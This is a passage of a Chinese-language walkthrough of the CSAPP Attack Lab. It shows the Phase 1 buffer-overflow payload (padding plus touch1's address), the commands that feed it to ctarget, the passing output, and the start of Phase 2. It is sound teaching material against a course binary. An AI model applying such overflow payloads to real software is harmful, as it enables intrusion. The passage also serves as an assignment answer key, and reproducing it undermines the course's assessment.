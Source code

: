 ```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00
```

 将该结果保存为p1_l1.txt，并执行

```shell
./hex2raw < p1_l1.txt > p1_l1_raw.txt
```

随后运行

```shell
./ctarget -q -i p1_l1_raw.txt
```

成功完成 Phase 1.

```shell
root@b2ba8c04f8ed:/csapp/target1# ./ctarget -q -i p1_l1_raw.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00
```

### Phase 2

该阶段需要插入``touch2``

```c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

为使我们能走入成功分支，这里需要传入参数 cookie = 0x59b997fa。``touch2``的地址为 0x4017ec。

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  ...
```
